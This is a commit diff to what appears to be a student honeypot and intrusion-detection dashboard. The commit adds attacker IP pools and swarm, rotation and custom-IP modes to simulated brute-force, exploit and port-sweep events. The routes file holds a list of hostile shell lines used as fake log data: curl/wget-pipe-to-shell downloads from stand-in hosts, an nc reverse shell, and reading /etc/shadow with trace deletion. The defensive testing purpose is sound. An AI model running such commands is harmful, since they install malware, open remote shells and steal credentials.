

Before and after one commit to kapi272/Final-project, a FastAPI app: page / in a window 1280 px wide. Shown: the part 397-933 px from the top of the page. Run offline with FastAPI, Linux system fonts and the light colour scheme; data that the repository does not hold is empty; some libraries are stand-ins or nearby versions.

Commit message:
feat: add multi-IP attacker pools, auto-rotation, custom IP, and swarm mode to Red Team controls (v1.8.0)

```diff
--- a/controller/api/routes.py
+++ b/controller/api/routes.py
@@ -1,9 +1,11 @@
 import asyncio
+import ipaddress
 import logging
+import random
 import time
-from typing import Any, AsyncGenerator, Dict, Optional
+from typing import Any, AsyncGenerator, Dict, List, Optional, Tuple
 
-from fastapi import APIRouter, HTTPException, Request, Response
+from fastapi import APIRouter, Body, HTTPException, Request, Response
 from fastapi.responses import StreamingResponse
 from pydantic import BaseModel, Field
 
@@ -16,10 +18,77 @@ logger = logging.getLogger(__name__)
 
 router = APIRouter(prefix="/api")
 
+# Curated multi-IP pools using RFC 5737 TEST-NET documentation ranges
+ATTACK_IP_POOLS: Dict[str, List[str]] = {
+    "brute-force": [
+        "198.51.100.99",
+        "198.51.100.142",
+        "198.51.100.205",
+        "203.0.113.45",
+        "192.0.2.81",
+    ],
+    "exploit": [
+        "203.0.113.88",
+        "203.0.113.154",
+        "203.0.113.219",
+        "198.51.100.175",
+        "192.0.2.114",
+    ],
+    "port-sweep": [
+        "198.51.100.77",
+        "198.51.100.188",
+        "192.0.2.63",
+        "203.0.113.92",
+        "192.0.2.199",
+    ],
+}
+
+EXPLOIT_PAYLOADS: Tuple[str, ...] = (
+    "curl -s http://malicious.payload/botnet.sh | sh",
+    "wget http://malicious.payload/mirai.arm7 -O /tmp/m && chmod +x /tmp/m",
+    "nc -e /bin/sh 192.0.2.55 4444",
+    "cat /etc/shadow && rm -rf /tmp/traces",
+    "wget http://198.51.100.10/loader.sh -O - | /bin/bash",
+)
+
 
 class UnbanRequest(BaseModel):
     ip: str = Field(..., description="Target IPv4 or IPv6 address to unban")
     admin_user: Optional[str] = Field("soc_admin", description="Identity executing the unban action")
+
+
+class AttackSimulationRequest(BaseModel):
+    src_ip: Optional[str] = Field(None, description="Optional explicit attacker IPv4 or IPv6 address")
+    mode: str = Field("single", description="Simulation mode: 'single', 'random', or 'swarm'")
+
+
+def _resolve_simulation_targets(
+    attack_type: str,
+    payload: Optional[AttackSimulationRequest],
+) -> Tuple[List[str], str]:
+    """Resolves attacker IP(s) from explicit input, random pool selection, or swarm mode."""
+    pool = ATTACK_IP_POOLS[attack_type]
+    if payload is None:
+        return [pool[0]], "single"
+
+    mode = (payload.mode or "single").strip().lower()
+    if mode not in {"single", "random", "swarm"}:
+        raise HTTPException(status_code=400, detail=f"Unsupported simulation mode: '{payload.mode}'")
+
+    if mode == "swarm":
+        return list(pool), "swarm"
+    if mode == "random":
+        return [random.choice(pool)], "random"
+
+    if payload.src_ip:
+        candidate = payload.src_ip.strip()
+        try:
+            normalized_ip = str(ipaddress.ip_address(candidate))
+        except ValueError as exc:
+            raise HTTPException(status_code=400, detail=f"Invalid IP address '{candidate}': {exc}") from exc
+        return [normalized_ip], "single"
+
+    return [pool[0]], "single"
 
 
 def make_response(
@@ -211,84 +280,153 @@ async def restore_node_container(node_id: str, request: Request) -> Dict[str, An
     return make_response(data=res, message=f"Container {node_id} restored to production.")
 
 
+@router.get("/simulate/attack/pools")
+async def get_attack_ip_pools() -> Dict[str, Any]:
+    """Returns curated attacker IP pools available for each simulation vector."""
+    return make_response(data=ATTACK_IP_POOLS)
+
+
+async def _emit_threshold_attack(
+    detector: IntrusionDetector,
+    broadcaster: SSEBroadcaster,
+    target_ips: List[str],
+    eventid: str,
+    attempts_per_ip: int = 5,
+) -> int:
+    """Broadcasts and evaluates repeated threshold attack events across one or more attacker IPs."""
+    events_triggered = 0
+    delay = 0.02 if len(target_ips) > 1 else 0.05
+
+    for attacker_ip in target_ips:
+        for i in range(attempts_per_ip):
+            if eventid == "cowrie.login.failed":
+                event = CowrieEvent(
+                    eventid=eventid,
+                    src_ip=attacker_ip,
+                    timestamp=time.time(),
+                    username="root",
+                    password=f"admin_pass_{i}",
+                    message=f"login attempt [root/admin_pass_{i}] failed",
+                    raw_data={"simulated": True},
+                )
+            else:
+                event = CowrieEvent(
+                    eventid=eventid,
+                    src_ip=attacker_ip,
+                    timestamp=time.time(),
+                    message=f"Remote SSH version: SSH-2.0-Attacker_Probe_{i}",
+                    raw_data={"simulated": True},
+                )
+            await broadcaster.broadcast("honeypot_hit", event.to_dict())
+            detector.process_event(event)
+            events_triggered += 1
+            await asyncio.sleep(delay)
+
+    return events_triggered
+
+
 @router.post("/simulate/attack/brute-force")
-async def trigger_simulated_bruteforce(request: Request) -> Dict[str, Any]:
-    """Triggers an automated credential brute-force attack simulation on demand."""
+async def trigger_simulated_bruteforce(
+    request: Request,
+    payload: Optional[AttackSimulationRequest] = Body(default=None),
+) -> Dict[str, Any]:
+    """Triggers a credential brute-force simulation for a selected, random, custom, or swarm IP set."""
     detector = get_detector(request)
     broadcaster = get_broadcaster(request)
-    attacker_ip = "198.51.100.99"
-    events_triggered = 0
+    target_ips, mode = _resolve_simulation_targets("brute-force", payload)
 
-    for i in range(5):
-        event = CowrieEvent(
-            eventid="cowrie.login.failed",
-            src_ip=attacker_ip,
-            timestamp=time.time(),
-            username="root",
-            password=f"admin_pass_{i}",
-            message=f"login attempt [root/admin_pass_{i}] failed",
-            raw_data={"simulated": True}
-        )
-        await broadcaster.broadcast("honeypot_hit", event.to_dict())
-        detector.process_event(event)
-        events_triggered += 1
-        await asyncio.sleep(0.05)
+    events_triggered = await _emit_threshold_attack(
+        detector=detector,
+        broadcaster=broadcaster,
+        target_ips=target_ips,
+        eventid="cowrie.login.failed",
+    )
+    protected = [ip for ip in target_ips if detector.allowlist.is_ip_protected(ip)]
+    ip_summary = ", ".join(target_ips)
 
     return make_response(
-        data={"target_ip": attacker_ip, "events_sent": events_triggered},
-        message=f"Brute-force attack simulation completed for IP {attacker_ip}."
+        data={
+            "target_ip": target_ips[0],
+            "target_ips": target_ips,
+            "mode": mode,
+            "events_sent": events_triggered,
+            "allowlist_protected": protected,
+        },
+        message=f"Brute-force attack simulation ({mode}) completed for {ip_summary}.",
     )
 
 
 @router.post("/simulate/attack/exploit")
-async def trigger_simulated_exploit(request: Request) -> Dict[str, Any]:
-    """Triggers a critical remote shell exploit simulation on demand."""
+async def trigger_simulated_exploit(
+    request: Request,
+    payload: Optional[AttackSimulationRequest] = Body(default=None),
+) -> Dict[str, Any]:
+    """Triggers a critical remote shell exploit simulation for a selected, random, custom, or swarm IP set."""
     detector = get_detector(request)
     broadcaster = get_broadcaster(request)
-    attacker_ip = "203.0.113.88"
-    cmd = "curl -s http://malicious.payload/botnet.sh | sh"
+    target_ips, mode = _resolve_simulation_targets("exploit", payload)
+    commands_used: List[str] = []
 
-    event = CowrieEvent(
-        eventid="cowrie.command.input",
-        src_ip=attacker_ip,
-        timestamp=time.time(),
-        input_command=cmd,
-        message=f"CMD: {cmd}",
-        raw_data={"simulated": True}
-    )
-    await broadcaster.broadcast("honeypot_hit", event.to_dict())
-    detector.process_event(event)
+    for idx, attacker_ip in enumerate(target_ips):
+        cmd = EXPLOIT_PAYLOADS[idx % len(EXPLOIT_PAYLOADS)]
+        commands_used.append(cmd)
+        event = CowrieEvent(
+            eventid="cowrie.command.input",
+            src_ip=attacker_ip,
+            timestamp=time.time(),
+            input_command=cmd,
+            message=f"CMD: {cmd}",
+            raw_data={"simulated": True},
+        )
+        await broadcaster.broadcast("honeypot_hit", event.to_dict())
+        detector.process_event(event)
+        if len(target_ips) > 1:
+            await asyncio.sleep(0.03)
+
+    protected = [ip for ip in target_ips if detector.allowlist.is_ip_protected(ip)]
+    ip_summary = ", ".join(target_ips)
 
     return make_response(
-        data={"target_ip": attacker_ip, "command": cmd},
-        message=f"Terminal exploit simulation completed for IP {attacker_ip}."
+        data={
+            "target_ip": target_ips[0],
+            "target_ips": target_ips,
+            "mode": mode,
+            "command": commands_used[0],
+            "events_sent": len(target_ips),
+            "allowlist_protected": protected,
+        },
+        message=f"Terminal exploit simulation ({mode}) completed for {ip_summary}.",
     )
 
 
 @router.post("/simulate/attack/port-sweep")
-async def trigger_simulated_port_sweep(request: Request) -> Dict[str, Any]:
-    """Triggers a rapid port reconnaissance sweep simulation on demand."""
+async def trigger_simulated_port_sweep(
+    request: Request,
+    payload: Optional[AttackSimulationRequest] = Body(default=None),
+) -> Dict[str, Any]:
+    """Triggers a rapid port reconnaissance sweep simulation for a selected, random, custom, or swarm IP set."""
     detector = get_detector(request)
     broadcaster = get_broadcaster(request)
-    attacker_ip = "198.51.100.77"
-    events_triggered = 0
+    target_ips, mode = _resolve_simulation_targets("port-sweep", payload)
 
-    for i in range(5):
-        event = CowrieEvent(
-            eventid="cowrie.client.version",
-            src_ip=attacker_ip,
-            timestamp=time.time(),
-            message=f"Remote SSH version: SSH-2.0-Attacker_Probe_{i}",
-            raw_data={"simulated": True}
-        )
-        await broadcaster.broadcast("honeypot_hit", event.to_dict())
-        detector.process_event(event)
-        events_triggered += 1
-        await asyncio.sleep(0.05)
+    events_triggered = await _emit_threshold_attack(
+        detector=detector,
+        broadcaster=broadcaster,
+        target_ips=target_ips,
+        eventid="cowrie.client.version",
+    )
+    protected = [ip for ip in target_ips if detector.allowlist.is_ip_protected(ip)]
+    ip_summary = ", ".join(target_ips)
 
     return make_response(
-        data={"target_ip": attacker_ip, "events_sent": events_triggered},
-        message=f"Reconnaissance sweep simulation completed for IP {attacker_ip}."
+        data={
+            "target_ip": target_ips[0],
+            "target_ips": target_ips,
+            "mode": mode,
+            "events_sent": events_triggered,
+            "allowlist_protected": protected,
+        },
+        message=f"Reconnaissance sweep simulation ({mode}) completed for {ip_summary}.",
     )
 
 
--- a/controller/static/app.js
+++ b/controller/static/app.js
@@ -733,53 +733,122 @@ document.addEventListener("DOMContentLoaded", () => {
         }
     };
 
-    // Wire Option A: Red Team Adversary Simulation Triggers
+    const ATTACK_IP_POOLS = {
+        "brute-force": ["198.51.100.99", "198.51.100.142", "198.51.100.205", "203.0.113.45", "192.0.2.81"],
+        "exploit": ["203.0.113.88", "203.0.113.154", "203.0.113.219", "198.51.100.175", "192.0.2.114"],
+        "port-sweep": ["198.51.100.77", "198.51.100.188", "192.0.2.63", "203.0.113.92", "192.0.2.199"]
+    };
+    const attackRotationIndex = { "brute-force": 0, "exploit": 0, "port-sweep": 0 };
+
+    // Show/hide inline custom IP input on Red Team simulation cards
+    window.toggleCustomAttackIp = function(cardKey) {
+        const selectEl = document.getElementById(`select-ip-${cardKey}`);
+        const customInputEl = document.getElementById(`custom-ip-${cardKey}`);
+        if (!selectEl || !customInputEl) return;
+
+        if (selectEl.value === "custom") {
+            customInputEl.classList.remove("hidden");
+            customInputEl.focus();
+        } else {
+            customInputEl.classList.add("hidden");
+        }
+    };
+
+    // Wire Option A: Multi-IP Red Team Adversary Simulation Triggers
     window.triggerAttack = async function(attackType) {
-        const btnId = `btn-attack-${attackType.replace(/[^a-zA-Z0-9]/g, '')}`;
-        const btn = document.getElementById(btnId);
+        const cardKey = attackType.replace(/[^a-zA-Z0-9]/g, '');
+        const btn = document.getElementById(`btn-attack-${cardKey}`);
+        const selectEl = document.getElementById(`select-ip-${cardKey}`);
+        const customInputEl = document.getElementById(`custom-ip-${cardKey}`);
+        const proto = attackType === "port-sweep" ? "TCP:SWEEP" : "SSH:2222";
+        const sev = attackType === "exploit" ? "CRIT" : "HIGH";
+
+        const selection = selectEl ? selectEl.value : "rotate";
+        let requestPayload = { mode: "single" };
+        let displaySource = "";
+
+        if (selection === "swarm") {
+            requestPayload = { mode: "swarm" };
+            displaySource = "SWARM (5 IPs)";
+        } else if (selection === "rotate") {
+            const pool = ATTACK_IP_POOLS[attackType] || ["198.51.100.99"];
+            const idx = attackRotationIndex[attackType] || 0;
+            const rotatedIp = pool[idx % pool.length];
+            attackRotationIndex[attackType] = idx + 1;
+            requestPayload = { src_ip: rotatedIp, mode: "single" };
+            displaySource = rotatedIp;
+        } else if (selection === "custom") {
+            const customIp = customInputEl ? customInputEl.value.trim() : "";
+            if (!customIp) {
+                appendTerminalLog({
+                    stream: "ADVERSARY",
+                    category: "honeypot",
+                    severity: "WARN",
+                    source: "CUSTOM_IP",
+                    protocol: proto,
+                    message: "Please enter a valid IPv4 or IPv6 address before launching custom simulation."
+                });
+                if (customInputEl) customInputEl.focus();
+                return;
+            }
+            requestPayload = { src_ip: customIp, mode: "single" };
+            displaySource = customIp;
+        } else {
+            requestPayload = { src_ip: selection, mode: "single" };
+            displaySource = selection;
+        }
+
         const originalContent = btn ? btn.innerHTML : "";
-
         if (btn) {
             btn.disabled = true;
             btn.innerHTML = `<span class="animate-spin mr-1">⚙️</span> Launching ${attackType}...`;
             btn.classList.add("opacity-75");
         }
 
-        const attackerIp = attackType === "exploit" ? "203.0.113.88" : (attackType === "port-sweep" ? "198.51.100.77" : "198.51.100.99");
-        const proto = attackType === "exploit" ? "SSH:2222" : (attackType === "port-sweep" ? "TCP:SWEEP" : "SSH:2222");
-
         appendTerminalLog({
             stream: "ADVERSARY",
             category: "honeypot",
-            severity: attackType === "exploit" ? "CRIT" : "HIGH",
-            source: attackerIp,
+            severity: sev,
+            source: displaySource,
             protocol: proto,
-            message: `Initiating ${attackType.toUpperCase()} intrusion attack simulation...`
+            message: `Initiating ${attackType.toUpperCase()} intrusion simulation from ${displaySource}...`
         });
 
         try {
             const res = await fetch(`/api/simulate/attack/${attackType}`, {
                 method: "POST",
-                headers: { "Content-Type": "application/json" }
+                headers: { "Content-Type": "application/json" },
+                body: JSON.stringify(requestPayload)
             });
             const data = await res.json();
-            if (data.status === "success") {
+            if (res.ok && data.status === "success") {
                 appendTerminalLog({
                     stream: "ADVERSARY",
                     category: "honeypot",
-                    severity: attackType === "exploit" ? "CRIT" : "HIGH",
-                    source: attackerIp,
+                    severity: sev,
+                    source: displaySource,
                     protocol: proto,
                     message: `Simulation payload delivered: ${data.message}`
                 });
+                if (data.data && Array.isArray(data.data.allowlist_protected) && data.data.allowlist_protected.length > 0) {
+                    appendTerminalLog({
+                        stream: "SYSTEM",
+                        category: "mitigation",
+                        severity: "WARN",
+                        source: data.data.allowlist_protected.join(", "),
+                        protocol: "ALLOWLIST",
+                        message: `Safety Allowlist blocked ban on protected IP(s): ${data.data.allowlist_protected.join(", ")}.`
+                    });
+                }
             } else {
+                const errMsg = data.detail || data.message || `HTTP ${res.status}`;
                 appendTerminalLog({
                     stream: "ADVERSARY",
                     category: "honeypot",
                     severity: "WARN",
-                    source: attackerIp,
+                    source: displaySource,
                     protocol: proto,
-                    message: `Simulation request error: ${data.message}`
+                    message: `Simulation rejected: ${errMsg}`
                 });
             }
         } catch (err) {
@@ -787,7 +856,7 @@ document.addEventListener("DOMContentLoaded", () => {
                 stream: "ADVERSARY",
                 category: "honeypot",
                 severity: "CRIT",
-                source: attackerIp,
+                source: displaySource,
                 protocol: proto,
                 message: `Network error triggering simulation: ${err}`
             });
--- a/controller/templates/index.html
+++ b/controller/templates/index.html
@@ -285,7 +285,20 @@
                             <span class="text-xs font-bold text-slate-200">Credential Brute-Force</span>
                             <span class="px-1.5 py-0.5 rounded text-[10px] font-mono font-bold bg-amber-950/60 border border-amber-800 text-amber-400">PORT 2222</span>
                         </div>
-                        <p class="text-[11px] text-slate-400 mb-3">5 rapid failed SSH logins from <code class="text-slate-300 font-mono">198.51.100.99</code>. Exceeds frequency threshold.</p>
+                        <p class="text-[11px] text-slate-400 mb-2.5">5 rapid failed SSH logins from selectable multi-IP pool. Exceeds threshold.</p>
+                        <div class="mb-3 space-y-1.5">
+                            <select id="select-ip-bruteforce" onchange="toggleCustomAttackIp('bruteforce')" class="w-full px-2 py-1 rounded bg-slate-900 border border-slate-700/80 text-[11px] font-mono text-amber-300 focus:outline-none focus:border-amber-500">
+                                <option value="rotate" selected>🔄 Auto-Rotate IP (5-IP Pool)</option>
+                                <option value="198.51.100.99">198.51.100.99 (Primary Bot)</option>
+                                <option value="198.51.100.142">198.51.100.142 (Mirai Node-B)</option>
+                                <option value="198.51.100.205">198.51.100.205 (Mirai Node-C)</option>
+                                <option value="203.0.113.45">203.0.113.45 (Dict Scanner)</option>
+                                <option value="192.0.2.81">192.0.2.81 (External Node)</option>
+                                <option value="swarm">🌐 Swarm Mode (All 5 IPs)</option>
+                                <option value="custom">✏️ Custom IP Address...</option>
+                            </select>
+                            <input id="custom-ip-bruteforce" type="text" placeholder="Enter custom IPv4 (e.g. 198.51.100.50)" class="hidden w-full px-2 py-1 rounded bg-slate-900 border border-slate-700 text-[11px] font-mono text-slate-200 placeholder-slate-500 focus:outline-none focus:border-amber-500" />
+                        </div>
                     </div>
                     <button id="btn-attack-bruteforce" onclick="triggerAttack('brute-force')" class="w-full py-1.5 px-3 text-xs font-semibold rounded bg-amber-950/40 hover:bg-amber-900 border border-amber-800 hover:border-amber-700 text-amber-300 transition-all flex items-center justify-center space-x-2">
                         <span>⚡ Trigger Brute-Force</span>
@@ -299,7 +312,20 @@
                             <span class="text-xs font-bold text-slate-200">Terminal Exploit Injection</span>
                             <span class="px-1.5 py-0.5 rounded text-[10px] font-mono font-bold bg-rose-950/60 border border-rose-800 text-rose-400">CRITICAL</span>
                         </div>
-                        <p class="text-[11px] text-slate-400 mb-3">Remote command injection (<code class="text-slate-300 font-mono">curl | sh</code>) from <code class="text-slate-300 font-mono">203.0.113.88</code>.</p>
+                        <p class="text-[11px] text-slate-400 mb-2.5">Remote shell injection (<code class="text-slate-300 font-mono">curl | sh</code>, <code class="text-slate-300 font-mono">wget</code>, <code class="text-slate-300 font-mono">nc</code>) across attacker IPs.</p>
+                        <div class="mb-3 space-y-1.5">
+                            <select id="select-ip-exploit" onchange="toggleCustomAttackIp('exploit')" class="w-full px-2 py-1 rounded bg-slate-900 border border-slate-700/80 text-[11px] font-mono text-rose-300 focus:outline-none focus:border-rose-500">
+                                <option value="rotate" selected>🔄 Auto-Rotate IP (5-IP Pool)</option>
+                                <option value="203.0.113.88">203.0.113.88 (Payload Dropper)</option>
+                                <option value="203.0.113.154">203.0.113.154 (C2 Injector)</option>
+                                <option value="203.0.113.219">203.0.113.219 (ARM7 Dropper)</option>
+                                <option value="198.51.100.175">198.51.100.175 (Loader Bot)</option>
+                                <option value="192.0.2.114">192.0.2.114 (Reverse Shell)</option>
+                                <option value="swarm">🌐 Swarm Mode (All 5 IPs)</option>
+                                <option value="custom">✏️ Custom IP Address...</option>
+                            </select>
+                            <input id="custom-ip-exploit" type="text" placeholder="Enter custom IPv4 (e.g. 203.0.113.100)" class="hidden w-full px-2 py-1 rounded bg-slate-900 border border-slate-700 text-[11px] font-mono text-slate-200 placeholder-slate-500 focus:outline-none focus:border-rose-500" />
+                        </div>
                     </div>
                     <button id="btn-attack-exploit" onclick="triggerAttack('exploit')" class="w-full py-1.5 px-3 text-xs font-semibold rounded bg-rose-950/40 hover:bg-rose-900 border border-rose-800 hover:border-rose-700 text-rose-300 transition-all flex items-center justify-center space-x-2">
                         <span>🔥 Trigger Terminal Exploit</span>
@@ -313,7 +339,20 @@
                             <span class="text-xs font-bold text-slate-200">Port Reconnaissance Sweep</span>
                             <span class="px-1.5 py-0.5 rounded text-[10px] font-mono font-bold bg-sky-950/60 border border-sky-800 text-sky-400">PROBES</span>
                         </div>
-                        <p class="text-[11px] text-slate-400 mb-3">Rapid TCP reconnaissance sweep from <code class="text-slate-300 font-mono">198.51.100.77</code> across virtual subnet.</p>
+                        <p class="text-[11px] text-slate-400 mb-2.5">Rapid TCP reconnaissance probes from distributed subnet scanners.</p>
+                        <div class="mb-3 space-y-1.5">
+                            <select id="select-ip-portsweep" onchange="toggleCustomAttackIp('portsweep')" class="w-full px-2 py-1 rounded bg-slate-900 border border-slate-700/80 text-[11px] font-mono text-sky-300 focus:outline-none focus:border-sky-500">
+                                <option value="rotate" selected>🔄 Auto-Rotate IP (5-IP Pool)</option>
+                                <option value="198.51.100.77">198.51.100.77 (Subnet Scanner)</option>
+                                <option value="198.51.100.188">198.51.100.188 (SYN Prober)</option>
+                                <option value="192.0.2.63">192.0.2.63 (Masscan Enum)</option>
+                                <option value="203.0.113.92">203.0.113.92 (Banner Grab)</option>
+                                <option value="192.0.2.199">192.0.2.199 (Botnet Recon)</option>
+                                <option value="swarm">🌐 Swarm Mode (All 5 IPs)</option>
+                                <option value="custom">✏️ Custom IP Address...</option>
+                            </select>
+                            <input id="custom-ip-portsweep" type="text" placeholder="Enter custom IPv4 (e.g. 192.0.2.77)" class="hidden w-full px-2 py-1 rounded bg-slate-900 border border-slate-700 text-[11px] font-mono text-slate-200 placeholder-slate-500 focus:outline-none focus:border-sky-500" />
+                        </div>
                     </div>
                     <button id="btn-attack-portsweep" onclick="triggerAttack('port-sweep')" class="w-full py-1.5 px-3 text-xs font-semibold rounded bg-sky-950/40 hover:bg-sky-900 border border-sky-800 hover:border-sky-700 text-sky-300 transition-all flex items-center justify-center space-x-2">
                         <span>📡 Trigger Port Sweep</span>
```
Also changed, not shown: context/architecture.md (+2 -1 lines), context/progress-tracker.md (+2 -1 lines), docs/EVALUATION_RUNBOOK.md (+6 -6 lines), tests/test_api_endpoints.py (+45 -0 lines), tests/test_dashboard_ui.py (+8 -0 lines), README.md.
